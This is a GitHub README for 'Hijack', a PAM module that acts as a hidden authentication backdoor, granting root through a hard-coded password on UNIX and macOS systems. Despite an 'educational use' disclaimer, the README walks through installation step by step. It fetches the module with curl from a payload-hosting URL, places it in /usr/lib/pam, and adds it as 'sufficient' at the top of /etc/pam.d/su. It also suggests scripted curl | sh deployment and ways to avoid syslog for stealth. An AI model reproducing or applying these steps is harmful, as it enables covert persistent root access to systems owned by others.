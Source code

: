 # Hijack
Hijack is a PAM module created to act as a shim enabling sustained access to an UNIX-based computer, even in the event of a password change.

**DISCLAIMER**
 - This small utility is provided for educational use on machines you own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using hijack under other conditions.

 - Hijack is not exactly designed with security in mind. Of course, you are free to use it as a foothold to get back into your box in the event of a password mishap (or some similar event), but this is *not* recommended by any means. As of the current version, the "secret" password hijack checks against is simply a string literal stored in plaintext within the hijack binary. Anyone who greps through the binary can see it – you can try this yourself if you'd like: just run `strings /usr/lib/pam/hijack.so` and you should see your password in the output. Bad design, I know. I'm just too lazy to fix it.

## Features and Relevant Caveats
I didn't think this would really be useful to anyone else, but alas I've had several requests for the source and so decided put it up here on Github. This code has only been tested on Mac OS X (versions 10.7 - 10.10), but it should theoretically function on any UNIX system that employs PAM authentication.

IMPORTANT: Hijack does **not** affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. Hijack **does** however work fine in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, the Mac OS X screensaver password lock also seems to work without a hitch.

## Building
Building hijack is not very difficult. It've gotten it to build flawlessly with both clang and tcc on my MacBook; YMMV with other setups. There's no configure script or anything, just a Makefile. The code itself is stupidly simple, as it's just a shim. Modify the Makefile as needed if your toolchain complains about something; it's only around 15 lines long.

For those of you who aren't familiar with the unix build system: just pop open a shell window, cd to the source directory, and type `make`. Mac OS X users will need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you want to toss ~8GB of SSD space out the window).

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the admin account of the machine in question. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case. The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a `curl | sh`-style pipe command. Such a script is intentionally not included for (hopefully) obvious reasons. If you require this or similar functionality though, rest assured that it's completely trivial to implement by oneself.

1. Move a copy of the shared library file `hijack.so` into your PAM library path. The precise location differs according to operating system – on some systems it can be ascertained by simply scrolling to the end of PAM's manual page ('man pam'), others might have you resorting to something like `locate pam_rootok` which, while perfectly functional, is a little bit messy in my opinion. On Mac OS X however, I've found that it's nearly always `/usr/lib/pam/`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/hijack.so -o /usr/lib/pam/hijack.so
```
The OSX enthusiasts among you may have flinched at the `.so` file extension – for once, I'm actually not being a newb: PAM recommends that modules be named this way even when they are technically in Mach-O `dylib` format.

2. Change the permission attributes of `/usr/lib/pam/hijack.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this is `root:wheel` ownership and mode 0444. In this case I downloaded the file as root, so already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel hijack.so
    # chmod 0444 hijack.so
```

3. Edit the configuration files in `/etc/pam.d` so that `hijack.so` has the `sufficient` role for the services you'd like to have it affect. Keep in mind that some services (e.g. sudo) log their activity with syslog, so if you're trying to be stealthy you might want to think twice as to how you're getting root. Lastly, make sure the entry is at the top, or PAM won't check it first. Here's my `/etc/pam.d/su` file, for example:
```
auth       sufficient     hijack.so
auth       sufficient     pam_rootok.so
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
```
This will cause `su`'s PAM calls to route through hijack, returning successful if the password given is equivalent to the one hard-coded into library, and falling back to OpenDirectory if not. Note that there is no need to remove or comment out the pam_group line as hijack will return successful before PAM has the opportunity to evaluate it.

4. Test it out!
```
$ su
Password:
#
```
After providing the hijack password (from any user) *or* the actual root password (as an admin/wheel user), `su` should give you a root shell. If not, you probably missed a step somewhere along the line.
